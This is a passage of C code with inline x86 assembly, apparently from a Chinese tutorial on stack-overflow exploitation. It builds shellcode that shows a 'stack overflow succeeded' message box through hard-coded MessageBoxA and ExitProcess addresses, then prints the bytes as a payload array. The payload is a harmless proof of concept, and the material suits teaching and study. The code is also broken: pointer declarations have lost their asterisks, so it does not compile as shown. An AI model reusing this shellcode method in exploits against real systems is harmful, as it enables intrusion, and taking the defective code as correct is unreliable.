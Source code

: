 ```c
		mov byte ptr [ebp-06h],0E7h
		mov byte ptr [ebp-05h],0B3h
		mov byte ptr [ebp-04h],0F6h
		mov byte ptr [ebp-03h],021h
		mov byte ptr [ebp-02h],cl	// 字符串'0'结尾

		// 在调用MessageBoxA前，将其所需参数准确入栈
		// 参数入堆栈的次序是从后向前(最后参数先入栈，第一参数最后入栈)
		push ecx			// 第四参数(对话框风格)　0　入栈
		lea eax, [ebp-0Fh]	
		push eax			// 第三参数(对话框标题)　堆栈成功溢出! 入栈
		lea eax, [ebp-14h]
		push eax			// 第二参数(显示文本)　^o^..堆栈成功溢出!　入堆栈
		push ecx			// 第一参数(窗体句柄)　0 入栈

		// 调用MessageBoxA函数并执行
		// 请在以下代码xxxxxxxx处填写MessageBoxA函数的绝对内存地址
		mov dword ptr [ebp-20h], 77E4D8DEh
		// 调用MessageBoxA
		call dword ptr [ebp-20h]	

		// 调用ExitProcess程序退出
		// 请在以下代码yyyyyyyy处填写ExitProcess函数的绝对内存地址
		mov dword ptr [ebp-30h],7C813039h
		// 调用ExitProcess
		call dword ptr [ebp-30h]	

		// 恢复堆栈原始状态(此处不会被执行)
		mov esp,ebp		// 恢复堆栈栈顶指针
		pop ecx			// 恢复ecx寄存器指针
		pop ebp			// 恢复堆栈帧基址指针
	}

	return 0;
}


int main()
{  
    // 使用程序获取地址内容，使用时注意应只保留汇编部分
	int i = 0;
    unsigned char pData = (unsigned char )asm;
    //int nLength = 177; 
	int nLength = (unsigned long)main - (unsigned long)asm;
    for (i = 0; i < nLength; i++)
    {
        printf("0x%02x, ", pData[i]);
    }
}
```
